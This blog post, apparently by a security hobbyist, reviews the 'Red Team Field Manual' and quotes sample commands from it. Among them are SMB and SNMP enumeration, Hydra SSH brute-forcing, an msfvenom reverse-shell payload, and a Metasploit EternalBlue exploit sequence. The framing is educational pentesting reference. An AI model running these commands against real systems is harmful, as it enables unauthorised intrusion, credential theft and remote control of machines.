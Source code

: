 ```yaml
---
title: "📚🔍 Red Team Field Manual: Your Infosec Companion 🕵️‍♂️💼"
author: "c4r4nch0"
date: "2023-07-10"
draft: false
searchHidden: false
tags: ["book", "machete", "infosec"]
ShowToc: True
ShowBreadCrumbs: True
# cover:
#     image: "https://example.com/images/sparkling_souls.jpg"
#     alt: "Sparkling Souls"
#     caption: "Surround Yourself with Sparkling Souls"
#     relative: true # To use relative path for cover image, used in hugo Page-bundles    

---
```

![Choose the correct Book Pill: Red or Blue](/morfeo_rbftm.jpg)

Hey there, fellow InfoSEC aficionados! Today, we're diving into the world of the "Red Team Field Manual," an indispensable gem in the realm of cybersecurity and penetration testing. If you're serious about mastering the art of red teaming or just want to level up your infosec skills, this little book packs a mighty punch.

**Why "Red Team Field Manual"?**

Picture this: You're in the midst of a complex penetration test, and you need a quick reference for that one obscure command or technique. You could scour the depths of the internet, but time is of the essence, and you need a reliable source at your fingertips. Enter the "Red Team Field Manual" (RTFM for short). This compact manual is designed for precisely those moments.

**The Magic of RTFM**

RTFM is a concise, no-nonsense guide that covers a wide array of topics relevant to red teaming, penetration testing, and general infosec wizardry. It's like having a seasoned mentor in your pocket, ready to assist you in your most critical moments.

[photo of the Red Team Field Manual book]

**Commands and Techniques You'll Love**

Here are some commands and techniques you'll find in RTFM that I absolutely love, ready to copy and use in your infosec adventures:

1. **Enumeration Magic**:
   
   Discovering valuable information about your target is crucial. RTFM provides a variety of enumeration commands to help you get started:

   - SNMP Enumeration:
     ```
     snmpwalk -c public -v1 target_ip
     ```

   - SMB Enumeration (using Enum4linux):
     ```
     enum4linux -a target_ip
     ```

2. **Password Cracking**:

   When you need to crack passwords, RTFM offers tools and techniques to get the job done:

   - Using John the Ripper for cracking password hashes:
     ```
     john --wordlist=wordlist.txt --format=NT hash.txt
     ```

   - Employing Hydra for brute-force attacks:
     ```
     hydra -l username -P password_list.txt ssh://target_ip
     ```

3. **Exploitation Essentials**:

   Master common exploits and payloads with these handy commands:

   - Metasploit (launching a reverse shell payload):
     ```
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=your_port -f exe > payload.exe
     ```

   - Exploiting a known vulnerability (example with EternalBlue):
     ```
     msfconsole
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS target_ip
     exploit
     ```

4. **Cheat Sheets Galore**:

   RTFM is packed with cheat sheets for various technologies and protocols. Here's an example for quick reference:

   - PowerShell Cheat Sheet (for basic commands):
     ```
     Get-Process
     Get-Service
     Get-NetAdapter
     ```

5. **Networking Ninja**:

   For all your networking needs, RTFM's networking section has got you covered:

   - Configuring a network interface (example with ifconfig):
     ```
     ifconfig eth0 up
     ifconfig eth0 192.168.1.2 netmask 255.255.255.0
     ```

   - Setting up an SSH tunnel:
     ```
     ssh -L local_port:target_ip:remote_port user@ssh_server
     ```

6. **Forensics and Incident Response**:

   When you're knee-deep in an incident response scenario, these commands come in handy:

   - Collecting volatile data using Volatility (example for memory analysis):
     ```
     volatility -f memory_dump.raw imageinfo
     volatility -f memory_dump.raw pslist
     ```

   - Checking for open ports and listening processes (example with netstat):
     ```
     netstat -tuln
     ```

Always use these commands responsibly in your infosec endeavors. 

Remember, with great power comes great responsibility! 🕵️‍♂️🔍🐍

**Real-World Examples**

RTFM isn't just a list of commands; it provides context and real-world examples. It shows you how to apply these commands in actual scenarios. It's like a seasoned colleague sharing their experiences with you.

**Conclusion**

So, should you get the "Red Team Field Manual"? Absolutely. It's a pocket-sized powerhouse of infosec knowledge that's incredibly handy for both beginners and seasoned professionals. While it won't replace in-depth understanding, it's an essential tool for quick reference and practical guidance.

[photo of me using RTFM in a real-world scenario]

Whether you're deep in a penetration test, studying for a certification, or just curious about infosec, this manual will become your trusty sidekick. It's like having a cheat code book for the world of hacking (ethically, of course!).

So, grab your copy of the "Red Team Field Manual," and let's embark on a journey filled with infosec adventures, one command at a time. 

Happy hacking, my friends! 🕵️‍♂️📘🔒